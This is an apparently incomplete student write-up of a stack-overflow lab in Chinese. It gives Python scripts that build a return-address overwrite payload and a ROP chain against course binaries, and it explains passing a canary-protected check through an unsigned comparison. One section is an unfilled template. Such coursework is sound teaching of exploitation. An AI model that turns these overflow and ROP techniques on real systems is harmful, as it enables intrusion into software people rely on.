



# 栈溢出攻击实验

## 题目解决思路


### Problem 1: 
- **分析**：problem1 程序存在典型的 栈缓冲区溢出漏洞。程序在读取用户输入文件内容时，未对输入长度进行有效检查，将输入数据直接拷贝到栈上的局部缓冲区中，从而导致当输入长度超过缓冲区大小时，后续的栈数据会被覆盖。

通过对 problem1 进行反汇编分析（objdump -d problem1），可以发现函数栈帧中局部缓冲区与返回地址之间的偏移是固定的。因此，攻击者可以构造特定长度的输入数据（payload），覆盖函数返回地址，使程序在函数返回时跳转到指定的目标函数。

进一步分析汇编代码可以发现，程序中已经存在一个函数，其功能是输出字符串：Yes!I like ICS!

因此，本题无需注入新的代码，只需通过 覆盖返回地址（ret2func） 的方式，将控制流劫持到该目标函数即可完成攻击。
- **解决方案**：payload 的整体结构如下：

[ padding ][ target function address ]


padding：用于填充栈缓冲区，覆盖从缓冲区起始位置到返回地址之前的所有内容

target function address：目标函数的地址，用于覆盖返回地址

在本实验环境中，通过分析确定：需要 16 字节 padding;目标函数地址为 0x401216;系统为 小端序（Little Endian），因此地址需按字节反序写入

使用 Python 生成二进制 payload 并写入文件 ans1.txt：

```python
padding = b"A" * 16

# func1 地址：0x401216（小端序）
target_addr = b"\x16\x12\x40\x00\x00\x00\x00\x00"

payload = padding + target_addr

with open("ans1.txt", "wb") as f:
    f.write(payload)

print("Payload written to ans1.txt")
```
该代码生成的 ans1.txt 文件即为程序运行时所需的输入文件。

- **结果**：

### Problem 2:
- **分析**：
漏洞位置：

程序 problem2 在 func 函数中存在栈溢出漏洞：
dest 地址为 rbp-0x8

拷贝长度为 0x38（56）字节

这会覆盖从 rbp-0x8 到 rbp+0x30 的内存区域

返回地址位于 rbp+0x8，距离 dest 的偏移为 16字节

攻击思路：

通过栈溢出覆盖返回地址

使用 ROP（Return-Oriented Programming）技术

跳转到 pop rdi gadget 设置参数

跳转到 func2 执行目标代码


- **解决方案**：
需要构造的 payload 结构：

16字节填充：覆盖 dest（局部变量）和 saved rbp

返回地址1：pop rdi; ret gadget 地址（0x4012c7）

参数值：0x3f8（十进制1016）

返回地址2：func2 函数地址（0x401216）

代码如下：
```python
#!/usr/bin/env python3
import struct

# 1. 填充 dest 和 saved rbp 的 16 字节
#    dest 在 rbp-0x8，拷贝56字节，前8字节填充dest，接着8字节覆盖保存的rbp
padding = b'A' * 16

# 2. ROP 链设置
pop_rdi = 0x4012c7    # pop rdi; ret 的地址（从反汇编看）
arg = 0x3f8           # 1016 的十六进制
func2_addr = 0x401216 # func2 函数的入口地址

# 3. 构造 payload
payload = padding
payload += struct.pack('<Q', pop_rdi)   # 小端序 64 位地址
payload += struct.pack('<Q', arg)       # pop rdi 时会弹出这个值到 rdi
payload += struct.pack('<Q', func2_addr) # 然后返回到 func2

# 4. 检查长度
print(f"Payload length: {len(payload)} bytes")
print(f"Maximum allowed by memcpy: 56 bytes")
if len(payload) > 56:
    print("ERROR: Payload too long!")
    exit(1)

# 5. 写入文件
with open("ans2.txt", "wb") as f:
    f.write(payload)

print("Payload written to ans2.txt")

# 6. 显示 payload 内容（可选）
print("\nPayload hex dump:")
for i in range(0, len(payload), 8):
    chunk = payload[i:i+8]
    hex_str = ' '.join(f'{b:02x}' for b in chunk)
    offset = i
    if offset == 0:
        print(f"Offset {offset:2d}: {hex_str}  # 前8字节填充 dest")
    elif offset == 8:
        print(f"Offset {offset:2d}: {hex_str}  # 覆盖 saved rbp")
    elif offset == 16:
        print(f"Offset {offset:2d}: {hex_str}  # 返回地址 -> pop rdi gadget (0x4012c7)")
    elif offset == 24:
        print(f"Offset {offset:2d}: {hex_str}  # 参数值 0x3f8")
    elif offset == 32:
        print(f"Offset {offset:2d}: {hex_str}  # 返回到 func2 (0x401216)")
```

- **结果**：

### Problem 3: 
- **分析**：...
- **解决方案**：payload是什么，即你的python代码or其他能体现你payload信息的代码/图片
- **结果**：附上图片

### Problem 4: 
- **分析**：Problem 4 中程序开启了 Stack Canary。
在函数执行时，程序会在栈中保存一个随机的 canary 值，并在函数返回前检查该值是否被修改。

如果在函数执行过程中发生栈溢出并破坏了栈结构，canary 的值就会发生变化，程序会立即调用 __stack_chk_fail 终止运行，从而防止攻击者通过覆盖返回地址劫持程序控制流。

- **解决方案**：problem4不需要写代码，通过分析汇编可以看出来程序在处理用户输入的整数时，使用了无符号比较，这会导致负数在无符号语义下被当作一个非常大的正整数处理，从而进入了本不应进入的“成功”分支。所以当输入-1时，-1在无符号比较中等价于一个很大的正数，成功满足程序的判断条件，程序调用成功函数并退出，即可完成。
- **结果**：
- 

## 思考与总结


## 参考资料

列出在准备报告过程中参考的所有文献、网站或其他资源，确保引用格式正确。
[1]知乎.CSAPP | Lab3-Attack Lab 深入解析(2023.01.31)https://zhuanlan.zhihu.com/p/476396465
[2]Arthals' ink.更适合北大宝宝体质的 Attack Lab 踩坑记(2023.10.18)https://arthals.ink/blog/attack-lab
